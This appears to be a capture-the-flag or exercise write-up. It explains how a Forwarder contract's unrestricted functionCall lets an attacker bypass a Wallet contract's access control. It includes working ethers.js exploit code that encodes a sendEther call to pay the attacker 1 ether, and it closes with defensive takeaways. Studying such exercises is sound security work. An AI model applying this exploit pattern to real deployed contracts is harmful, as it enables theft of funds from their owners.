 # Vulnerability and Exploit in Forwarder and Wallet Contracts

## Vulnerability Description

The vulnerability exists because the Forwarder contract's `functionCall` method can forward any function call to any address without limitations. This lets an attacker use the Forwarder contract to bypass the Wallet contract's access control and call the `sendEther` function.

## Exploit Description

The exploit occurs when the attacker creates a malicious data input, containing the necessary information for the `sendEther` function, and uses the Forwarder contract's `functionCall` method to pass this data to the Wallet contract. As a result, the Wallet contract sends 1 ether to the attacker's wallet.

```javascript
it("conduct your attack here", async function () {
  const sendEtherFunctionSig =
    "0x" + ethers.utils.id("sendEther(address,uint256)").slice(0, 10).slice(2);
  const destination = attackerWallet.address;
  const amount = ethers.utils.parseEther("1");

  const encodedDestination = ethers.utils.defaultAbiCoder
    .encode(["address"], [destination])
    .slice(2);
  const encodedAmount = ethers.utils.defaultAbiCoder
    .encode(["uint256"], [amount])
    .slice(2);

  const data = sendEtherFunctionSig + encodedDestination + encodedAmount;

  await forwarderContract
    .connect(attackerWallet)
    .functionCall(walletContract.address, data);
});
```

## Takeaways

1. Always implement proper access control and restrictions in your smart contracts to prevent unauthorized function calls.
2. Be cautious when using low-level functions like `call` and `delegatecall`, as they can expose your contract to potential vulnerabilities.
